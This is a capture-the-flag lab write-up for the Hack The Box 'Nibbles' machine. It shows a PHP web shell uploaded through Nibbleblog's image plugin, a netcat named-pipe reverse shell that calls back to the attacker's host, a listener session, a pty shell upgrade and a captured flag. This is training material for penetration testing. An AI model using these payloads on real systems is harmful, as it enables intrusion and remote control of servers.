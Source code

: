 # Nibles - Initial Foothold

## Testing My image plugin

<figure><img src=".gitbook/assets/2024-11-15 15_15_13-HTB Viewer - Work - Microsoft​ Edge.png" alt=""><figcaption></figcaption></figure>

Uploading code



```
┌┌─[us-academy-6]─[10.10.14.97]─[htb-ac-567828@htb-fhxvxejky5]─[~]
└──╼ [★]$ cat test.php 
<?php system('id'); ?>

```

<figure><img src=".gitbook/assets/2024-11-15 15_17_05-Settings.png" alt="We got those errors"><figcaption><p>We got those errors</p></figcaption></figure>



<figure><img src=".gitbook/assets/2024-11-15 15_23_34-HTB Viewer - Work - Microsoft​ Edge.png" alt=""><figcaption><p>We see those two files with recent modified date, meaning our upload was successful.</p></figcaption></figure>

Testing command execution



```
└──╼ [★]$ curl http://10.129.128.181/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

```

These are some cheat sheets to create a reverse shell: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)and [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

Using follow php code and upload to image plugin:

```
└──╼ [★]$ cat test.php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.97 9443 >/tmp/f"); ?>


```

Activate listener and run the code:

```
┌─[us-academy-6]─[10.10.14.97]─[htb-ac-567828@htb-fhxvxejky5]─[~]
└──╼ [★]$ curl http://10.129.128.181/nibbleblog/content/private/plugins/my_image/image.php

```

```
┌─[us-academy-6]─[10.10.14.97]─[htb-ac-567828@htb-fhxvxejky5]─[~]
└──╼ [★]$ nc -lvnp 9443
listening on [any] 9443 ...
connect to [10.10.14.97] from (UNKNOWN) [10.129.128.181] 48560
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)


```

Upgrading shell

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 

```

Checking flag:

```
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
79c03865431abf47b90ef24b9695e148

```
